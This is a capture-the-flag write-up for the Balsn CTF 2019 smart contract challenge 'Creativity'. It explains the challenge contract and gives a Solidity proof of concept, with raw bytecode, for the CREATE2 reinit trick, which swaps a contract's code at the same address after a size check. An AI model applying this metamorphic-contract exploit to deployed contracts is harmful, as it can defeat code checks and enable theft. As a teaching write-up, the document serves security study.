 # Challenge

`Creativity` is one of my two smart contract challenges for [Balsn CTF 2019](https://github.com/balsn/balsn-ctf-2019). You may find the source files [here](https://github.com/x9453/balsn-ctf-2019).

* Type: Smart contract
* Solves: 1/720

# Description

> Be concise, or be creative.

# Solution

## TL;DR

In this challenge, our goal is to emit the `SendFlag` event. According to the [CREATE2 reinit trick](https://ethereum-magicians.org/t/potential-security-implications-of-create2-eip-1014/2614), we can deploy a contract that passes the `check()`, self-destruct it, and then deploy a new contract at the same address with different code. Let our new contract emit the `SendFlag` event, which will be executed by the delegatecall from the game contract when `execute()` is called.

## Detailed Write-up

We are provided with the game contract source:

```javascript=
pragma solidity ^0.5.10;

contract Creativity {
    event SendFlag(address addr);
    
    address public target;
    uint randomNumber = 0;
    
    function check(address _addr) public {
        uint size;
        assembly { size := extcodesize(_addr) }
        require(size > 0 && size <= 4);
        target = _addr;
    }
    
    function execute() public {
        require(target != address(0));
        target.delegatecall(abi.encodeWithSignature(""));
        selfdestruct(address(0));
    }
    
    function sendFlag() public payable {
        require(msg.value >= 100000000 ether);
        emit SendFlag(msg.sender);
    }
}
```

Unfortunately, we don't have that much ether to call `sendFlag` directly, so let's first try to follow the logic of the game contract:

1. Deploy a contract with its code size not more than 4 bytes.
2. Call `check()` with the address of the deployed contract as the parameter.
3. Call `execute()` to let the game contract make a [delegatecall](https://solidity.readthedocs.io/en/v0.5.12/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries) to our deployed contract.

The biggest problem is: How can we emit the `SendFlag` event by executing at most 4 bytes of EVM bytecode? The short answer is no, we can't. Or at least in the [Constantinople hard-fork](https://blog.ethereum.org/2019/02/22/ethereum-constantinople-st-petersburg-upgrade-announcement/), the latest release of Ethereum when the CTF is held in Oct 2019.

In short, the reasons are:

1. Directly emit an event with `LOG1` requires an event topic hash as a parameter, which is more than 4 bytes. ([Ref](https://solidity.readthedocs.io/en/v0.5.12/contracts.html#low-level-interface-to-logs))
2. To invoke any type of call to another contract, at least 6 parameters should be prepared on the stack, which requires at least 6 operations and thus 6 bytes of code. ([Ref](https://ethervm.io/))
3. Modifying the storage of the game contract is useless since there is a selfdestruct right after the delegatecall.

### The CREATE2 Trick

The `CREATE2` opcode proposed in [EIP-1014](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-1014.md) behaves identically the same as `CREATE`, except the calculated address for the deployed contract. This [discussion thread](https://ethereum-magicians.org/t/potential-security-implications-of-create2-eip-1014/2614) points out a critical security issue of `CREATE2`, the so-called `CREATE2` reinit trick, which allows a contract to change in-place after being deployed. You may find a detailed explanation in the link above.

Here is a simple PoC of the `CREATE2` reinit trick (re-written from [this contract](https://ropsten.etherscan.io/address/0xb3ecef15f61572129089a9704b33d53f56991df8#code)). All contracts deployed by `deploy(code)` through `Deployer` will be deployed at the same address. However, the code of these contracts can be different.

```javascript=
pragma solidity ^0.5.10;

contract Deployer {
    bytes public deployBytecode;
    address public deployedAddr;
    
    function deploy(bytes memory code) public {
        deployBytecode = code;
        address a;
        // Compile Dumper to get this bytecode
        bytes memory dumperBytecode = hex'6080604052348015600f57600080fd5b50600033905060608173ffffffffffffffffffffffffffffffffffffffff166331d191666040518163ffffffff1660e01b815260040160006040518083038186803b158015605c57600080fd5b505afa158015606f573d6000803e3d6000fd5b505050506040513d6000823e3d601f19601f820116820180604052506020811015609857600080fd5b81019080805164010000000081111560af57600080fd5b8281019050602081018481111560c457600080fd5b815185600182028301116401000000008211171560e057600080fd5b50509291905050509050805160208201f3fe';
        assembly {
            a := create2(callvalue, add(0x20, dumperBytecode), mload(dumperBytecode), 0x9453)
        }
        deployedAddr = a;
    }
}

contract Dumper {
    constructor() public {
        Deployer dp = Deployer(msg.sender);
        bytes memory bytecode = dp.deployBytecode();
        assembly {
            return (add(bytecode, 0x20), mload(bytecode))
        }
    }
}
```

To solve this challenge, this is our plan:

1. Using the `CREATE2` reinit trick, deploy a contract with content `0x33ff`, which is `selfdestruct(msg.sender)`.
2. Call `check()` in the game contract to let our deployed contract pass the check.
3. Send an empty transaction to our contract to make it self-destructed.
4. Again, using the `CREATE2` reinit trick, deploy a new contract at the same address that will execute `emit SendFlag(0)`.
5. Call `execute()`in the game contract, it will then fire the `SendFlag` event.

# Misc

Congrats to @Sissel for being the only person who solved my two challenges during the CTF! I hope all of you enjoy this challenge and Balsn CTF.
